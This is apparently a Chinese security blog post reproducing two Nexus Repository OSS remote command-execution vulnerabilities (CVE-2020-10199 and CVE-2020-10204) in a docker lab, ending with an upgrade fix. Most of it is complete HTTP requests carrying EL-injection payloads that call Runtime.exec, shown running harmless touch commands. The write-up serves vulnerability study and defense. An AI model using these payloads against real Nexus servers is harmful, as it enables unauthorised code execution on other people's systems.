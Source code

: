 ```yaml
---
layout: post
title:  "nexus oss 命令执行漏洞 (cve-2020-10199 && 10204)"
date:   2020-4-7 15:18:43
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现  ALL
tags: 安全开发 漏洞复现  ALL
describe: nexus oss 命令执行漏洞
cover: '/assets/img/posts/nexus-cover.png'
---
```

## nexus repository oss
Nexus Repository OSS 3是一个开源的仓库管理系统，提供了更加丰富的功能，而且安装、配置、使用起来也更加简单方便。OSS 3版本主要支持的仓库（Repository）包括如下：
bower、docker、maven、npm、nuget、pypi、raw、rubygems、yum

## 漏洞详情
10199的漏洞需要普通用户权限即可触发，而10204则需要管理员权限。两个漏洞的触发原因均是不安全的执行[EL表达式](https://docs.oracle.com/javaee/6/tutorial/doc/gjddd.html)导致的

## 漏洞复现

启动漏洞环境

```bash
docker run -it -p 8081:8081 -d co0ontty/cve-2020-10199
```

查看用户名密码

```
# 查看 DOCKER CONTAINER ID
docker ps
# 查看密码 其中 bc91335e3518 为 DOCKER CONTAINER ID
docker exec -it bc91335e3518 cat /root/sonatype-work/nexus3/admin.password
```

访问 http://ip:8081

## cve-2020-10199

命令执行：
```
POST /service/extdirect HTTP/1.1
Host: 192.168.232.128:8081
Content-Length: 372
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.31170964063400564
Content-Type: application/json
Accept: */*
Origin: http://192.168.232.128:8081
Referer: http://192.168.232.128:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: NX-ANTI-CSRF-TOKEN=0.31170964063400564; NXSESSIONID=77c0418f-6c70-430c-8c20-222908bbe861
Connection: close

{"action":"cleanup_CleanupPolicy","method":"create","data":[{"name":"co0ontty","format":"$\\.{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /opt/cve-2020-10199')}","notes":"222","mode":"delete","lastBlobUpdatedEnabled":false,"lastDownloadedEnabled":false,"releaseTypeEnabled":false,"regexEnabled":false,"criteria":{}}],"type":"rpc","tid":33}
```
![命令执行效果](/assets/img/posts/nexus-10199-1.png)

触发命令执行：
```
POST /service/rest/beta/repositories/apt/hosted HTTP/1.1
Host: 192.168.232.128:8081
Content-Length: 358
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.31170964063400564
Content-Type: application/json
Accept: */*
Origin: http://192.168.232.128:8081
Referer: http://192.168.232.128:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: NX-ANTI-CSRF-TOKEN=0.31170964063400564; NXSESSIONID=77c0418f-6c70-430c-8c20-222908bbe861
Connection: close

{
  "name": "interna1l",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true,
    "writePolicy": "allow_once"
  },
  "cleanup": {
    "policyNames": ["co0ontty"]
  },
  "apt": {
    "distribution": "bionic"
  },
  "aptSigning": {
    "keypair": "string",
    "passphrase": "string"
  }
}
```
![命令执行效果](/assets/img/posts/nexus-10199-2.png)

## cve-2020-10204

命令执行一：
```
POST /service/extdirect HTTP/1.1
Host: 192.168.232.128:8081
Content-Length: 362
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.31170964063400564
Content-Type: application/json
Accept: */*
Origin: http://192.168.232.128:8081
Referer: http://192.168.232.128:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: NX-ANTI-CSRF-TOKEN=0.31170964063400564; NXSESSIONID=77c0418f-6c70-430c-8c20-222908bbe861
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"test","version":"4","firstName":"test","lastName":"test","email":"test@qq.com","status":"active","roles":["nx-admin$\\.{''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /opt/co0ontty.success')}"]}],"type":"rpc","tid":20}
```
![命令执行效果](/assets/img/posts/nexus-10204.png)

命令执行二：
```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 192.168.232.128:8081
Content-Length: 214
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.31170964063400564
Content-Type: application/json
Accept: */*
Origin: http://192.168.232.128:8081
Referer: http://192.168.232.128:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: NX-ANTI-CSRF-TOKEN=0.31170964063400564; NXSESSIONID=6d9fd8c5-4b18-4680-b332-09600e9d34b5
Connection: close

{
  "name": "interna1l",
  "online": true,
  "group": {
    "memberNames": ["${'co0ontty'.toUpperCase()}"]
  },
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  }
}
```
![命令执行效果](/assets/img/posts/nexus-upper.png)

## 解决方案

- 请升级版本到  Nexus Repository Manager OSS/Pro  3.21.2 或更高版本

- [蔚蓝盾入侵防御系统](https://github.com/Mario-NDR/Mario/)已支持对 CVE-2020-10199 及 CVE-2020-10204 的防御

